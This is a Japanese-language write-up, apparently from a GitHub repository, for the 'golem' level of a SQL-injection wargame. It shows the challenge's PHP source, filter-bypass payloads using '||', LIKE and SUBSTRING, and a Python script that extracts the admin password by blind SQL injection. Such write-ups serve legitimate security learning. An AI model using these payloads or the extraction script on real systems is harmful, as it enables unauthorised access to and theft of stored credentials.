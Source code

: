 # golem

## answer

- [golem](../src/golem.py)

## problem

```
query : select id from prob_golem where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=1
```

とすると

```
query : select id from prob_vampire where id='1'
```

となった。

コードを読んでいく。

```
if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
```

これイコールも禁止されている気がするんだけど、

```
?pw=1' || '1' = '1
```

このイコールも"Hehe"になってしまうからダメ。

```
?pw=1'||'1
```

これを試してみる。

```
https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=1%27||%271

query : select id from prob_golem where id='guest' and pw='1'||'1'

Hello guest
```

とりあえずHello guestは出せた。

このあと、adminのpwを抜いてきたい。

やっぱりBlindSQLiかなと思ってはいるが、「=」がフィルターされていることを考えないといけない。

このような場合に、like句を活用できるらしい。

like句の使い方はこんな感じらしい。

```
SELECT * FROM employee WHERE name LIKE 'taro'
```

以上のように使うとlike句はイコールとして使うことができる、、、

```
?pw=' || length(pw) like 8 && id like 'admin
```

をurlエンコードしてから貼り付ける。

```
https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=%27%20%7C%7C%20length(pw)%20like%208%20%26%26%20id%20like%20%27admin

query : select id from prob_golem where id='guest' and pw='' || length(pw) like 8 && id like 'admin'

Hello admin
```

長さを変えながら試してたら、8でHello adminがでた。BlindSQLiで間違いなさそう。

また、「substr(」がフィルターされていることも考えないといけない。

MYSQLなら「substring」で代替できるかもしれない。

これでちょっと調べてみたい。

```
?pw=' || substring(pw, 1, 1) < 'A' && id like 'admin

?pw=' || substring(pw, 1, 1) > 'A' && id like 'admin
```

上のみHello adminを返す。

```
query : select id from prob_golem where id='guest' and pw='' || substring(pw, 1, 1) < 'A' && id like 'admin'

Hello admin
```

以上をふまえてコードを書いてみる。

```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php"
    ua = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
    headers = {'User-Agent': ua}
    cookies = dict(PHPSESSID='XXXXXXXXXXXXXXXXXXXXXX')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    for count in range(1, 10):
        for char in chars:
            val = '\' || SUBSTRING(pw,{count},1) like \'{char}\' && id like \'admin'.format(count = count, char = char)
            params = {'pw': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                print(password)
                break
            if char == 'Z':
                print("not found")
                return
    print(password)

if __name__ == "__main__":
    main()
```

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [addslashes | php manual](https://www.php.net/manual/ja/function.addslashes.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [文字列関数 | mysql manual](https://dev.mysql.com/doc/refman/5.6/ja/string-functions.html)